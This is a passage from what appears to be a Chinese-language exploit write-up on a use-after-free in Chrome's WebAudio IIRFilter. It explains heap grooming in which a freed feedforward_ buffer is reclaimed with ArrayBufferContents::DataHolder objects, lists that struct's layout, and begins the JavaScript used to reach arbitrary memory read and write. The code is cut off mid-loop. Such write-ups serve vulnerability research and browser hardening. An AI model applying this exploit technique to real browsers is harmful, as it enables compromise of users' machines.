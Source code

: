```CPP
		T* aligned_data = AlignedAddress(allocation, kAlignment);

		if (aligned_data == allocation || extra_allocation_bytes == kAlignment) {
			allocation_ = allocation;
			aligned_data_ = aligned_data;
			size_ = static_cast<uint32_t>(n);
			is_allocation_good = true;
		} else {
			// always allocate extra after the first alignment failure.
			extra_allocation_bytes = kAlignment;
			WTF::Partitions::FastFree(allocation);
		}
	}
}
```

通过 `IIRFilter.getFrequencyResponse` 函数读取 `IIRFilter::feedforwwrd_` 存储的数据，运算后写入输出缓冲区。正常情况下 `IIRFilter::feedforward_` 内容是 0， 运算结果是 π。漏洞利用成功后 `IIRFilter::feedforwrd_` 的内容被改写成了空闲链表的下一项指针，返回值也一定改变了，所以通过此函数可以判断漏洞是否利用成功。

`IIRFilter:: feedforward_` 使用 0x30 字节的缓冲区， `ArrayBufferContents::DataHolder` 也占 0x30 字节，把 `IIRFilter::feedforward_` 插入空闲链表后，再申请 `ArrayBufferContents::DataHolder`，就可以把 `IIRFilter::feedforward_` 所在内存块再次申请出来，这样就得到指向同一个内存块的 `IIRFilter::feedforward_` 和 `ArrayBufferContent::DataHolder`

---

**ℹ️NOTE**: `IIRFilter::feedforward_` 存储两个 double 仅需要 0x10 字节，但由于 `AudioArray` 的对齐要求，会多申请 0x20 字节，所以实际使用的 0x30 字节的内存块。

---

- ArrayBufferContents::DataHolder
	- 0x00 ref_count_ 引用计数
	- 0x08 data_ 缓冲区，属于 ArrayBufferPartition
	- 0x10 data_length_ 缓冲区长度
	- 0x18 deleter_ 释放函数
	- 0x20 deleter_info_ 释放附加信息
	- 0x28 is_shared_
	- 0x2C has_registerd_external_allocation_

`ArrayBufferContents::DataHolder` 被用在 `WTF::ArrayBuffer` 内部，管理从 PartitionAlloc 申请的内存块。而 `WTF::ArrayBuffer` 又被 `blink::AudioBuffer`、`blink::ImageData` 用做内部数据存储。这样一来，创建 `AudioBuffer`、`ImageData`，就相当于创建 `ArrayBufferContents::DataHolder`。代码 `audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
 就是在创建 `ArrayBufferContents::DataHolder` 来占坑刚刚被释放的 `IIRFilter::feedforward_`。

### 任意地址读写

```JavaScript
async function finalUAFCallback() {
	for (let i = 0; i < 256; i++) {
		floatArray.fill(0);

		iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);

		if (floatArray[0] != 3.1415927410125732) {
			await collectGargabe();

			audioBufferArray2 = [];

			for (let j = 0; j < 80; j++)
				audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));

			iirFilters = new Array(1);
			await collectGargabe();

			for (let j = 0; j < 336; j++)
```